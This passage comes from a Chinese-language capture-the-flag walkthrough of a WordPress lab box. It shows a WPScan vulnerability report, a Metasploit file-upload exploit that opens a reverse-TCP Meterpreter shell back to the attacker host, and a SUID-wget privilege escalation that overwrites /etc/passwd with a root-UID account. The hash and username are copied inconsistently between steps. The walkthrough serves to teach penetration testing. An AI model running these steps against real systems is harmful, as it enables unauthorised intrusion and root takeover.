 |      - https://wpscan.com/vulnerability/2025a4e1-62b7-4236-9143-c45d99b38b1f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34645
 |      - https://www.wordfence.com/vulnerability-advisories/#CVE-2021-34645
 |
 | [!] Title: Shopping Cart & eCommerce Store < 5.2.5 - Arbitrary Design Settings Update via CSRF
 |     Fixed in: 5.2.5
 |     Reference: https://wpscan.com/vulnerability/9acfa4f2-8e7a-4d4f-b33d-9162cd81365e
 |
 | Version: 3.0.4 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/wp-easycart/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/wp-easycart/readme.txt

[+] wp-support-plus-responsive-ticket-system
 | Location: http://192.168.32.149/wordpress/wp-content/plugins/wp-support-plus-responsive-ticket-system/
 | Last Updated: 2019-09-03T07:57:00.000Z
 | Readme: http://192.168.32.149/wordpress/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt
 | [!] The version is out of date, the latest version is 9.1.2
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/wp-support-plus-responsive-ticket-system/, status: 200
 |
 | [!] 6 vulnerabilities identified:
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 8.0.0 – Authenticated SQL Injection
 |     Fixed in: 8.0.0
 |     References:
 |      - https://wpscan.com/vulnerability/f267d78f-f1e1-4210-92e4-39cce2872757
 |      - https://www.exploit-db.com/exploits/40939/
 |      - https://lenonleite.com.br/en/2016/12/13/wp-support-plus-responsive-ticket-system-wordpress-plugin-sql-injection/
 |      - https://plugins.trac.wordpress.org/changeset/1556644/wp-support-plus-responsive-ticket-system
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 8.0.8 - Remote Code Execution (RCE)
 |     Fixed in: 8.0.8
 |     References:
 |      - https://wpscan.com/vulnerability/1527b75a-362d-47eb-85f5-47763c75b0d1
 |      - https://plugins.trac.wordpress.org/changeset/1763596/wp-support-plus-responsive-ticket-system
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 9.0.3 - Multiple Authenticated SQL Injection
 |     Fixed in: 9.0.3
 |     References:
 |      - https://wpscan.com/vulnerability/cbbdb469-7321-44e4-a83b-cac82b116f20
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1000131
 |      - https://github.com/00theway/exp/blob/master/wordpress/wpsupportplus.md
 |      - https://plugins.trac.wordpress.org/changeset/1814103/wp-support-plus-responsive-ticket-system
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 9.1.2 - Stored XSS
 |     Fixed in: 9.1.2
 |     References:
 |      - https://wpscan.com/vulnerability/e406c3e8-1fab-41fd-845a-104467b0ded4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-7299
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15331
 |      - https://cert.kalasag.com.ph/news/research/cve-2019-7299-stored-xss-in-wp-support-plus-responsive-ticket-system/
 |      - https://plugins.trac.wordpress.org/changeset/2024484/wp-support-plus-responsive-ticket-system
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 8.0.0 - Privilege Escalation
 |     Fixed in: 8.0.0
 |     References:
 |      - https://wpscan.com/vulnerability/b1808005-0809-4ac7-92c7-1f65e410ac4f
 |      - https://security.szurek.pl/wp-support-plus-responsive-ticket-system-713-privilege-escalation.html
 |      - https://packetstormsecurity.com/files/140413/
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 8.0.8 - Remote Code Execution
 |     Fixed in: 8.0.8
 |     References:
 |      - https://wpscan.com/vulnerability/85d3126a-34a3-4799-a94b-76d7b835db5f
 |      - https://plugins.trac.wordpress.org/changeset/1763596
 |
 | Version: 7.1.3 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt

[+] wp-symposium
 | Location: http://192.168.32.149/wordpress/wp-content/plugins/wp-symposium/
 | Last Updated: 2015-08-21T12:36:00.000Z
 | Readme: http://192.168.32.149/wordpress/wp-content/plugins/wp-symposium/readme.txt
 | [!] The version is out of date, the latest version is 15.8.1
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/wp-symposium/, status: 200
 |
 | [!] 7 vulnerabilities identified:
 |
 | [!] Title: WP Symposium 13.04 - Unvalidated Redirect
 |     References:
 |      - https://wpscan.com/vulnerability/34c4aeb1-3dc4-44b8-90b8-a94b9c11b594
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-2694
 |
 | [!] Title: WP Symposium <= 12.07.07 - Authentication Bypass
 |     Reference: https://wpscan.com/vulnerability/cbacde86-17a4-4103-94f5-09dae96bd935
 |
 | [!] Title: WP Symposium <= 14.11 - Unauthenticated Shell Upload
 |     References:
 |      - https://wpscan.com/vulnerability/2e454393-a36d-4b24-9b9e-603f5efddfb0
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-10021
 |      - https://www.exploit-db.com/exploits/35543/
 |      - https://www.exploit-db.com/exploits/35778/
 |      - https://www.homelab.it/index.php/2014/12/11/wordpress-wp-symposium-shell-upload/
 |      - https://blog.sucuri.net/2014/12/wp-symposium-zero-day-vulnerability-dangers.html
 |      - https://packetstormsecurity.com/files/129884/
 |      - https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_symposium_shell_upload
 |      - https://www.youtube.com/watch?v=pF8lIuLT6Vs
 |
 | [!] Title: WP Symposium <= 15.1 - SQL Injection
 |     Fixed in: 15.4
 |     References:
 |      - https://wpscan.com/vulnerability/cb30bfcd-58ae-4210-bc6c-6d898c9e446c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3325
 |      - https://www.exploit-db.com/exploits/37080/
 |      - https://web.archive.org/web/20150718010246/https://permalink.gmane.org/gmane.comp.security.oss.general/16479
 |      - https://packetstormsecurity.com/files/131801/
 |
 | [!] Title: WP Symposium <=  15.5.1 - Unauthenticated SQL Injection
 |     Fixed in: 15.8
 |     References:
 |      - https://wpscan.com/vulnerability/f9f78241-8911-485e-9e18-a3da1096220c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-6522
 |      - https://www.exploit-db.com/exploits/37824/
 |      - https://plugins.trac.wordpress.org/changeset/1214872/wp-symposium
 |
 | [!] Title: WP Symposium <= 15.1 - Blind SQL Injection
 |     Fixed in: 15.8
 |     References:
 |      - https://wpscan.com/vulnerability/a4b7d222-2d1d-44c0-be07-b328c1a2a0d7
 |      - https://advisories.dxw.com/advisories/blind-sql-injection-in-wp-symposium-allows-unauthenticated-attackers-to-access-sensitive-data/
 |
 | [!] Title: WP Symposium <= 15.8.1 - Unauthenticated Reflected Cross-Site Scripting (XSS)
 |     References:
 |      - https://wpscan.com/vulnerability/2ac2d43f-bf3f-4831-9585-5c5484051095
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9414
 |      - https://cxsecurity.com/issue/WLB-2015090024
 |
 | Version: 15.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.32.149/wordpress/wp-content/plugins/wp-symposium/readme.txt

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 10
 | Requests Remaining: 65

[+] Finished: Mon Jun  6 03:01:27 2022
[+] Requests Done: 98411
[+] Cached Requests: 21
[+] Data Sent: 35.883 MB
[+] Data Received: 13.677 MB
[+] Memory used: 500.102 MB
[+] Elapsed time: 00:02:35

```

使用msf

```
msf6 > use exploit/unix/webapp/wp_reflexgallery_file_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set rhosts 192.168.32.149
rhosts => 192.168.32.149
msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set targeturi /wordpress
targeturi => /wordpress
msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > exploit

[*] Started reverse TCP handler on 192.168.32.130:4444 
[+] Our payload is at: WIfhFLFPqz.php. Calling payload...
[*] Calling payload...
[*] Sending stage (39282 bytes) to 192.168.32.149
[*] Meterpreter session 1 opened (192.168.32.130:4444 -> 192.168.32.149:46952) at 2022-06-06 21:36:43 -0400
[+] Deleted WIfhFLFPqz.php

meterpreter > shell
Process 12488 created.
Channel 2 created.
id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)

python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html/wordpress/wp-content/uploads/2022/06$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**权限提升**

一旦我们获得了适当的外壳，我们就枚举了机器的标志。我们在 /home/raj/ 目录下找到 flag1.txt

```
cd /home 
ls 
cd raj 
ls 
cat flag1.txt
aHR0cHM6Ly93d3cuaGFja2luZ2FydGljbGVzLmlu
```

现在对于权限提升，常规做法是在"查找"命令的帮助下检查任何具有 SUID 权限的文件。我们使用以下命令枚举所有具有 SUID 权限的二进制文件：

```
find / -perm -u=s -type f 2>/dev/null
```



查找命令显示**wget**和**cp**命令具有 SUID 权限。这对于升级 root 权限是可能的

SUID Binaries 命令为我们提供了所有可以读/写的敏感文件，因此在 wget 命令的帮助下，我们可以覆盖 `/etc/passwd`。  

现在我们正在为我们的新用户创建密码的盐值，这将通过使用"openssl"以下命令来完成，如下面的屏幕截图所示：

```
┌──(root💀kali)-[~/Desktop]
└─# openssl passwd -1 -salt ignite pass123
$1$ignite$3eTbJm98O9Hz.k1NTdNxe1
```

我们将得到类似这样的哈希值：**"$1$ignite$3eTbJm980Hz.k1NTdNxe1"**；这将帮助我们在目标机器的 `/etc/passwd` 文件中创建用户条目。现在我们已经在本地机器上复制了 `/etc/passwd` 文件的全部内容，如下图所示。



粘贴上面复制的内容后，我们将为用户"**ignite**"编辑一条新记录，然后将上面复制的哈希密码粘贴到记录中，如下所示。

```
iqnite:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash
```



下载passwd文件覆盖靶场的passwd文件



提权成功


